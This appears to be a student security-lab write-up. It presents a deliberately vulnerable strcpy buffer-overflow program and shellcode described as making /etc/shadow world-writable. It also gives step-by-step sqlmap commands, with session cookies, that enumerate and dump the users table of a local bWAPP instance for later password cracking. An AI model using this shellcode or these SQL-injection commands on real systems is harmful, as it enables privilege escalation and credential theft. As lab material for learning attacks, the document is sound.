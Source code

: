 ![image](https://github.com/user-attachments/assets/41d8b554-4694-4717-b0b4-6840645aa1a0)# Task 1: Software buffer overflow attack
 
Given a vulnerable C program 
```
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```
and a shellcode in C. This shellcode executes chmod 777 /etc/shadow without having to sudo to escalate privilege
```
#include <stdio.h>
#include <string.h>

unsigned char code[] = \
"\x89\xc3\x31\xd8\x50\xbe\x3e\x1f"
"\x3a\x56\x81\xc6\x23\x45\x35\x21"
"\x89\x74\x24\xfc\xc7\x44\x24\xf8"
"\x2f\x2f\x73\x68\xc7\x44\x24\xf4"
"\x2f\x65\x74\x63\x83\xec\x0c\x89"
"\xe3\x66\x68\xff\x01\x66\x59\xb0"
"\x0f\xcd\x80";

int
void main() {
    int (*ret)() = (int(*)())code;
}
```
**Question 1**:
- Compile both C programs and shellcode to executable code. 
- Conduct the attack so that when C executable code runs, shellcode willc also be triggered. 
  You are free to choose Code Injection or Environment Variable approach to do. 
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.
**Answer 1**: Must conform to below structure:

Description text (optional)


``` 
    code block (optional)
```

output screenshot (optional)

**Conclusion**: comment text about the screenshot or simply answered text for the question

# Task 2: Attack on the database of bWapp 
- Install bWapp (refer to quang-ute/Security-labs/Web-security). 
- Install sqlmap.
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup. 

**Question 1**: Use sqlmap to get information about all available databases
**Answer 1**:

Step 1: Install SQL map from this link : https://github.com/sqlmapproject/sqlmap.git

Step 2: Install bWAPP by following the tutorial in this link: https://github.com/quang-ute/Security-labs/tree/main/Web-security/Vulnerable%20Web%20App

Step 3: Login and choose the bug:

![image](https://github.com/user-attachments/assets/e708c4d6-b51c-4125-8683-c5fa7692435c)

Step 4: Select movie and copy the url ( note that: delete query action ) : http://localhost:8025/sqli_2.php?movie=1

![image](https://github.com/user-attachments/assets/84ffb76e-4217-4558-9090-b022dcbdebbf)

![image](https://github.com/user-attachments/assets/3b315eed-2f9b-42ab-a9b7-0f0f7011b964)


Step 5: Open Developer Tool and get cookie value in tab Application

![image](https://github.com/user-attachments/assets/190e9138-8366-40a9-b277-d06cf45cb92d)


Step 6: cd to folder sqlmap and run the code : python sqlmap.py -u "http://localhost:8025/sqli_2.php?movie=1" --dbs --cookie="PHPSESSID=q9s62q6gaojhs1g2meag832sa3;security_level=0"


Step 7: Always type y and the terminal show all the databases

![image](https://github.com/user-attachments/assets/70c022fe-a3b0-4e75-8120-c3426bba3bfe)


**Question 2**: Use sqlmap to get tables, users information
**Answer 2**:	

Step 1: Run this code to see all the tables of bWAPP database: sqlmap.py -u "http://localhost:8025/sqli_2.php?movie=1" -D bWAPP --tables --cookie="PHPSESSID=q9s62q6gaojhs1g2meag832sa3;security_level=0"

![image](https://github.com/user-attachments/assets/0280a6a8-e771-4df8-b6c4-aa1ece23bbae)

Step 2: Run this code see all the column of users table: python sqlmap.py -u "http://localhost:8025/sqli_2.php?movie=1" -D bWAPP -T users --columns --cookie="PHPSESSID=q9s62q6gaojhs1g2meag832sa3;security_level=0"

![image](https://github.com/user-attachments/assets/972a52b4-b243-4366-a157-ad269d6a5530)

Step 3: Run this code to see all records in table user : python sqlmap.py -u "http://localhost:8025/sqli_2.php?movie=1" -D bWAPP -T users --dump --cookie="PHPSESSID=q9s62q6gaojhs1g2meag832sa3;security_level=0"


![image](https://github.com/user-attachments/assets/3d8e083d-96d6-4559-9093-5d929c14d623)



**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:
